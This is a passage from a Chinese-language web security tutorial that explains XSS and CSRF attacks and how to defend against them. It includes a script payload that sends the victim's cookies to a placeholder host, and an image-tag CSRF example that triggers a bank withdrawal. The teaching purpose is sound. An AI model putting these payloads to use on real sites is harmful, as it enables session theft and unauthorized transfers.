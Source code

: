 ```
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

#### 防范手段

##### 1. 设置 Cookie 为 HttpOnly，防止 脚本调用

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

##### 2. 过滤特殊字符

例如将 `<` **转义**为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。比如form 和 script 等标签都被转义，而 h 和 p 等标签将会保留。

## 二、跨站请求伪造（登录信息尚未过期）

#### 攻击原理

假如一家银行用以执行转账操作的 URL 地址如下：

```
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
```

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">。
```

如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，**登录信息尚未过期**，那么她就会损失 1000 美元。（两个刚好，刚好有账户名为李华的人，刚好登陆信息没有过期）

由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。如发邮件，发消息，甚至财产操作如转账和购买商品。他可以将这种地址藏在论坛，博客等任何用户生成内容的网站中。这意味着如果服务器端没有合适的防御措施的话，用户即使访问熟悉的可信网站也有受攻击的危险。

通过例子能够看出，攻击者并不能通过 CSRF 攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是**欺骗用户浏览器，让其以用户的名义执行操作。**

XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。

#### 防范手段

##### 1. 标识请求来源的地址

Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求**来源的地址在同一个域名**下，可以极大的防止 CSRF 攻击。但存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。

##### 2. 添加校验 Token，生成随机数

在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。

##### 3. 输入验证码

因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作。
